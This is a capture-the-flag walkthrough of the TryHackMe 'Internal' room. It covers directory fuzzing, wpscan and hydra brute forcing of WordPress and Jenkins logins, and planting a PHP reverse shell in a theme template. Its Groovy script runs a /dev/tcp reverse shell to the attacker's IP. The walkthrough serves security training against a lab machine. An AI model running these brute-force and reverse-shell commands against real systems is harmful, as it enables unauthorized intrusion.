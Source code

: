 ```yaml
---
title: Internal
date: 2024-11-29 00:00:00 +0800
categories: [Tryhackme, Offensive Pentesting Path]
tags: [tryhackme, writeup, walkthrough, linux]     # TAG names should always be lowercase
description: This is a Writeup for Internal Room Which is a part of the offensive pentesting path on tryhackme
---
```


### Scanning

We will start with scanning our machine, Let's start by adding *internal.thm* to our /etc/hosts file and then start our nmap scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

### Enumeration

As we can see there is no much to look through so we will make the http port our first target, we will go to see what we have 

![img-description](/assets/img/Internal_Default.png)
_Default page_

and as we can see it's a default page for the apache server so we will try to fuzz the website directories using *ffuf*

#### Fuzzing

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u 'http://10.10.77.170/FUZZ' -r                       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.77.170/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 2450ms]
blog                    [Status: 200, Size: 53942, Words: 3347, Lines: 330, Duration: 121ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4459ms]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4405ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 5411ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 77ms]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 77ms]
phpmyadmin              [Status: 200, Size: 10531, Words: 504, Lines: 26, Duration: 1238ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 78ms]
:: Progress: [4614/4614] :: Job [1/1] :: 529 req/sec :: Duration: [0:00:12] :: Errors: 0 ::
```

we found a directory called *blog* so we will head to it to see it's contents 

![img-description](/assets/img/Internal_blog.png)
_Blog_

i have found that the website is running on wordpress and i have found a login page which redirected me to the wp login page so i will start by trying a deafult credentials *Username:admin* *Password:admin*

![img-description](/assets/img/Internal_wp.png)
_wplogin_

We will find that it tells us *Error: The password you entered for the username admin is incorrect.* which means that there is a username called admin so we will try to get access to the system with this username

### Gaining access

We will use a tool called *wpscan* to try bruteforcing the password of the admin 

using this command

```
wpscan --url http://internal.thm/blog/wp-login.php -U admin -P /usr/share/wordlists/rockyou.txt
```

and we got a hit we now have access to the wp panel

![img-description](/assets/img/Internal_creds.png)
_AdminCreds_

#### Reverse Shell

Now we will go to Appearance > Theme Editor and on the right we will find something called 404 Template which as we can see a php code so we can change the code of this page to a php reverse shell to gain access to the webserver.

you can find the reverse shell here [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![img-description](/assets/img/Internal_rev.png)
_ReverseShell_
 
 you must change your ip address and your port to open a nc listener with the port in the code and after this you can head to *internal.thm/blog/wp-content/themes/twentyseventeen/404.php* to execute our reverse shell and we will find that we got access

 ![img-description](/assets/img/Internal_access.png)
_Access_

#### User Access

Now we want to stabilize our shell so that we can exeplore our system more so we will use this command

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

After that we will start by seeing the users on the system by viewing the */etc/passwd* file which contains the system users and we will find a user called *aubreanna*

```
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
```

in order to get access to this user i tried to explore the directories first and in the */opt* directory i have found a file named wp-save.txt
and it contains the user creds

 ![img-description](/assets/img/Internal_aubreanna.png)
_aubreanna_

And now we can get the user flag

```
aubreanna@internal:~$ cat user.txt
THM{int************}
```

### Privilege Escalation

We will find an intersting file called jenkins.txt so we will open it and we will find that it tells us that there is a jenkin service running *jenkin* is a standalone application for continuous integration and continuous delivery of software.

 ![img-description](/assets/img/Internal_jenkins.png)
_jenkins_

so in order to see it we must do local port forwarding using this command

```
ssh -L 9999:172.17.0.2:8080 aubreanna@10.10.77.170 
```

and now we can access it by typing in our browser *localhost:9999*

we will find that it is a default jenkins login page 

 ![img-description](/assets/img/Internal_JL.png)
_jenkinsLogin_

Now we can try to brute force it using hydra to see if we can get access, you can intercept the request in burpsuite to get the request and use this command 

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 9999 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
```

we will find that we got a hit

 ![img-description](/assets/img/Internal_Jc.png)
_jenkinsCreds_

In order to get access we must find a place that we can get a reverse shell from so after some search you can go to Manage Jenkins > Tools and Actions > Script Console

we will find that we can *Type in an arbitrary Groovy script and execute it on the server.* so i will open a listener on my machine and execute the script

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.23.53.56/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

And from the listener we have opened we will find that we got access, when again seeing files in the directories in the */opt* we will find another root with the root password this time

 ![img-description](/assets/img/Internal_RootPass.png)
_Rootpass_

Now we can ssh to the root user and get our root flag

```
root@internal:~# cat root.txt
THM{d0ck3r_********}
```

